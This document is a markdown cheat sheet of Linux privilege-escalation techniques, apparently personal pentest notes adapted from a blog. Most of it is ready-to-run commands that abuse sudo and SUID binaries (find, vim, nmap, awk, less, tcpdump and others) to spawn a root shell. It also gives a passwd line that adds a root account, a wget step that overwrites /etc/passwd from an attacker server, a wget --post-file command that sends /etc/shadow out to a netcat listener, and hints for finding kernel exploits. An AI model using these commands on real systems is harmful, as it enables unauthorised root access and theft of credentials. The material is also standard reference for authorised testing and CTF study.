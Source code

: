 # Linux Privilege Escalation

---- Credits to Touhid M.Shaikh @ https://touhidshaikh.com/blog/?p=790 ----
---- Modified to add my own notes and formatting in ----


Sudoers File

    /etc/sudoers

Sudoer File Syntax.

    root ALL=(ALL) ALL

Explain 1: The root user can execute from ALL terminals, acting as ALL (any) users, and run ALL (any) command.

The first part is the user, the second is the terminal from where the user can use the sudocommand, the third part is which users he may act as, and the last one is which commands he may run when using.sudo

    user1 ALL= /sbin/poweroff
  
Explain 2: The above command, makes the user user1 can from any terminal, run the command power off using user1’s user password.

    user1 ALL = (root) NOPASSWD: /usr/bin/find
  
Explain 3:  The above command, make the user touhid can from any terminal, run the command find as root user without password.



Find out what SUDO permissions you have. The user may run these binary files without as root without password

    sudo -l

Also possible to check all files with SUID bits set with

        find / -perm -u=s -type f 2>/dev/null
        or
        find / -perm -4000 -type f 2>/dev/null


**Listing**

Here is a brief list of the exploitable binaries. Exact commands are in next section

    awk
    cp / mv
    find
    less
    man
    more
    nano
    nmap
    wget
    vi
    vim

Secondary List, not tested

sudo mount -o bind /bin/bash /bin/mount
sudo mount


$ echo $’id\ncat /etc/shadow’ > /tmp/.test
$ chmod +x /tmp/.test
$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

sudo strace -o/dev/null /bin/bash



---- Individual Commands ----

Using CP or MV

        copy and overwrite passwd file

Using Find Command

    sudo find /etc/passwd -exec /bin/sh \;
    or

    sudo find /bin -name nano -exec /bin/sh \;
    
Using Vi Command

    sudo vi
    :shell

    :set shell=/bin/bash:shell    
    :!bash

Using Vim Command

    sudo vim -c '!sh'
    
Using Nmap Command
Old way.

    sudo nmap --interactive
    nmap> !sh
    sh-4.1#
    Note : nmap –interactive option not available in latest nmap.

Latest Way without –interactive

    echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse


Using Man Command

    sudo man man

after that press !sh and hit enter


Using Less/More Command (extra stuff below)

    sudo less /etc/hosts
    sudo more /etc/hosts
    after that press !sh and hit enter

From Less you can also go into vi into a shell

       sudo less /etc/shadow
       v
       :shell

You need to run more on a file that is bigger than your screen.

        sudo more /home/pelle/myfile
        !/bin/bash

Using awk Command

    sudo awk 'BEGIN {system("/bin/sh")}'
 
Using nano Command
nano is text editor using this editor u can modify passwd file and add a user in passwd file as root privilege after that u need to switch user. Add this line in /etc/passwd to order to add the user as root privilege.

    sudo nano  /etc/passwd
    add this line:
    user1:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash


now switch user password with password : test

    su user1
    


Using wget Command
this very cool way which requires a Web Server to download a file. This way i never saw on anywhere. lets explain this.

On Attaker Side.

First Copy Target’s /etc/passwd file to attacker machine.
modify file and add a user in passwd file which is saved in the previous step to the attacker machine.
append this line only => 

    user1:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash

host that passwd file to using any web server.
On Victim Side.

    sudo wget http://192.168.56.1:8080/passwd -O /etc/passwd
    
now switch user password  : test

    su user1


Note: if u want to dump file from a server like a root’s ssh key, Shadow file etc.

    sudo wget --post-file=/etc/shadow 192.168.56.1:8080
    Setup Listener on attacker : nc –lvp 8080


---- Other ----
Using apache Command
sadly u cant get Shell and Cant edit system files.

but using this u can view system files.

    sudo apache2 -f /etc/shadow


Output is like this :

    Syntax error on line 1 of /etc/shadow:
    Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration


Sadly no Shell. But you manage to extract root hash now Crack hash in your machine. For Shadow Cracking click here for more.




Super long list here:

https://gtfobins.github.io/

## Kernel Exploits

To be avoided if possible, as it may cause crashes

Check Version

        uname -a
        cat /proc/version
        cat /etc/issue

Search for exploits

        site:exploit-db.com kernel version

        python linprivchecker.py extended
